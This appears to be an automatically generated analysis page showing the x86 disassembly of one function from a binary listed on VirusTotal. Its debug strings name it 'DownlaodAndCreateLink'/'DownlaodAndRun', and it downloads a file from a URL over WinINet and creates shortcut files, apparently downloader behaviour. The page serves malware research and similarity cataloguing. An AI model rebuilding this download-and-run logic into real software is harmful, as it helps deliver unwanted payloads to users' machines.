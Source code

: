 ```yaml
---
layout: post
title:  "fcn.0040128f @ de21a548b66aa6c0b17491b6a31e14fa"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040128f
- **Origin (md5):** de21a548b66aa6c0b17491b6a31e14fa
- **VirusTotal:** [virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Similar Functions

1. [fcn.00401569][similar_1_ref] (sim.: 0.9486642270503803)
2. [fcn.0040c8c9][similar_2_ref] (sim.: 0.907979422633357)
3. [fcn.0040c217][similar_3_ref] (sim.: 0.8947265504546873)
4. [fcn.00433e73][similar_4_ref] (sim.: 0.8946060260749582)
5. [fcn.0041e847][similar_5_ref] (sim.: 0.8933162397139397)


# Disassembled Code

{% highlight nasm %}
jmp 0x40469c
push ebp
lea ebp,[esp-0x20c]
sub esp,0x20c
push 0xffffffffffffffff
push 0x43a28f
mov eax,dword fs:[0]
push eax
mov eax,0x402c
call fcn.0040cf10
mov eax,dword[0x4481b0]
xor eax,ebp
mov dword[ebp+0x208],eax
push ebx
push esi
push edi
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
mov eax,dword[ebp+0x214]
mov ecx,dword[eax-0xc]
xor ebx,ebx
cmp ecx,ebx
mov dword[ebp-4],4
jne 0x404739
lea ecx,[eax-0x10]
call fcn.00401050
mov ecx,dword[ebp+0x218]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x21c]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x220]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x224]
add ecx,0xfffffff0
call fcn.00401050
xor eax,eax
jmp 0x404b75
push eax
lea eax,[ebp-0x38]
push eax
call fcn.0040145b
pop ecx
pop ecx
push 0x4498ac
lea ecx,[ebp-0x14]
mov byte[ebp-4],5
call fcn.004014a1
lea eax,[ebp-0x1c]
push eax
mov byte[ebp-4],6
call fcn.00401483
pop ecx
push eax
lea ecx,[ebp-0x14]
mov byte[ebp-4],7
call fcn.00401069
mov ecx,dword[ebp-0x1c]
add ecx,0xfffffff0
mov byte[ebp-4],6
call fcn.00401050
mov esi,0x104
push esi
lea ecx,[ebp-0x14]
call fcn.00401393
push eax
call dword[sym.imp.SHLWAPI.dll_PathRemoveFileSpecW]
push 0xffffffffffffffff
lea ecx,[ebp-0x14]
call fcn.00401532
push str.Episode
push esi
lea ecx,[ebp-0x14]
call fcn.00401393
mov edi,dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call edi
push 0xffffffffffffffff
lea ecx,[ebp-0x14]
call fcn.00401532
push dword[ebp-0x14]
call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]
test eax,eax
jne 0x4047ef
push ebx
push dword[ebp-0x14]
push ebx
call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]
push dword[ebp-0x14]
call fcn.0040170d
pop ecx
push 0x80
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]
lea eax,[ebp-0x14]
push eax
lea ecx,[ebp-0x18]
call fcn.004010be
push dword[ebp+0x21c]
lea ecx,[ebp-0x18]
push esi
mov byte[ebp-4],8
call fcn.00401393
push eax
call edi
push 0xffffffffffffffff
lea ecx,[ebp-0x18]
call fcn.00401532
lea eax,[ebp-0x14]
push eax
lea ecx,[ebp-0x24]
call fcn.004010be
push str._bind_777
lea eax,[ebp+0x220]
push eax
lea eax,[ebp-0x1c]
push eax
mov byte[ebp-4],9
call fcn.00401005
add esp,0xc
push dword[eax]
lea ecx,[ebp-0x24]
push esi
mov byte[ebp-4],0xa
call fcn.00401393
push eax
call edi
mov ecx,dword[ebp-0x1c]
add ecx,0xfffffff0
mov byte[ebp-4],9
call fcn.00401050
push 0xffffffffffffffff
lea ecx,[ebp-0x24]
call fcn.00401532
push str..url
lea ecx,[ebp-0x24]
call fcn.004013ed
push dword[ebp-0x18]
mov esi,dword[sym.imp.KERNEL32.dll_DeleteFileW]
mov byte[ebp-0xd],bl
call esi
push ebx
push ebx
push ebx
push ebx
push str.DownlaodAndCreateLink
call dword[sym.imp.WININET.dll_InternetOpenW]
cmp eax,ebx
mov dword[ebp-0x30],eax
je 0x4049c3
push ebx
push 0x80000000
push ebx
push ebx
push dword[ebp+0x214]
push eax
call dword[sym.imp.WININET.dll_InternetOpenUrlW]
cmp eax,ebx
mov dword[ebp-0x20],eax
je 0x4049a9
mov edi,dword[sym.imp.WININET.dll_HttpQueryInfoW]
push ebx
lea ecx,[ebp-0x34]
push ecx
lea ecx,[ebp-0x1c]
push ecx
push 0x20000005
push eax
mov dword[ebp-0x1c],ebx
mov dword[ebp-0x34],4
call edi
test eax,eax
jne 0x4048f7
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:HttpQueryInfo_Error.
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd],1
push ebx
lea eax,[ebp-0x34]
push eax
lea eax,[ebp-0x2c]
push eax
push 0x20000013
push dword[ebp-0x20]
mov dword[ebp-0x2c],ebx
call edi
test eax,eax
jne 0x404915
mov byte[ebp-0xd],1
cmp dword[ebp-0x2c],0xc8
je 0x404922
mov byte[ebp-0xd],1
cmp byte[ebp-0xd],bl
jne 0x40499e
cmp dword[ebp-0x1c],ebx
je 0x40499e
push 0x43f974
push dword[ebp-0x18]
call fcn.0040cea7
mov edi,eax
cmp edi,ebx
pop ecx
pop ecx
jne 0x404952
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:File_Create_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd],1
jmp 0x40499e
mov dword[ebp-0x28],ebx
lea eax,[ebp-0x28]
push eax
push 0x4000
lea eax,[ebp-0x4038]
push eax
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp eax,ebx
je 0x404993
cmp dword[ebp-0x28],ebx
je 0x404997
push edi
push dword[ebp-0x28]
lea eax,[ebp-0x4038]
push 1
push eax
call fcn.0040cd5f
add esp,0x10
cmp dword[ebp-0x28],ebx
jne 0x404955
jmp 0x404997
mov byte[ebp-0xd],1
push edi
call fcn.0040cb84
pop ecx
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049b8
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:InternetOpenUrl_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd],1
push dword[ebp-0x30]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049d2
push 0x43fa60
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd],1
cmp byte[ebp-0xd],bl
mov edi,dword[ebp-0x24]
jne 0x404afe
push ebx
call dword[sym.imp.ole32.dll_CoInitialize]
cmp eax,ebx
jge 0x404a22
mov ecx,edi
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x18]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x14]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x38]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x214]
add ecx,0xfffffff0
jmp 0x4046f5
push edi
call esi
push dword[ebp+0x224]
push dword[ebp+0x218]
push dword[ebp-0x18]
push edi
call fcn.0040156e
add esp,0x10
cmp eax,ebx
je 0x404af3
lea eax,[ebp]
push eax
call fcn.00401429
pop ecx
lea eax,[ebp]
push eax
lea ecx,[ebp-0x2c]
call fcn.004013e8
push 0x43fa5c
push eax
lea eax,[ebp-0x1c]
push eax
mov byte[ebp-4],0xb
call fcn.00401005
lea ecx,[ebp+0x220]
push ecx
push eax
lea eax,[ebp-0x30]
push eax
mov byte[ebp-4],0xc
call fcn.004013a2
push str..lnk
push eax
lea eax,[ebp-0x20]
push eax
mov byte[ebp-4],0xd
call fcn.00401005
add esp,0x24
mov ecx,dword[ebp-0x30]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x1c]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x2c]
add ecx,0xfffffff0
mov byte[ebp-4],0x11
call fcn.00401050
push dword[ebp-0x20]
call esi
push ebx
push dword[ebp+0x224]
push edi
push dword[ebp-0x18]
push ebx
push dword[ebp-0x20]
call fcn.00401357
add esp,0x18
test eax,eax
jne 0x404ae6
push dword[ebp-0x18]
call esi
push edi
call esi
mov ecx,dword[ebp-0x20]
add ecx,0xfffffff0
call fcn.00401050
jmp 0x404af8
push dword[ebp-0x18]
call esi
call dword[sym.imp.ole32.dll_CoUninitialize]
lea ecx,[edi-0x10]
call fcn.00401050
mov ecx,dword[ebp-0x18]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x14]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp-0x38]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x214]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x218]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x21c]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x220]
add ecx,0xfffffff0
call fcn.00401050
mov ecx,dword[ebp+0x224]
add ecx,0xfffffff0
call fcn.00401050
xor eax,eax
cmp byte[ebp-0xd],bl
sete al
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
pop ebx
mov ecx,dword[ebp+0x208]
xor ecx,ebp
call fcn.0040b32a
add ebp,0x20c
leave
ret 0x14
{% endhighlight %}


[similar_1_ref]: /report/fcn.00401569@de21a548b66aa6c0b17491b6a31e14fa
[similar_2_ref]: /report/fcn.0040c8c9@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0040c217@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_4_ref]: /report/fcn.00433e73@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[virustotal_ref]: https://www.virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa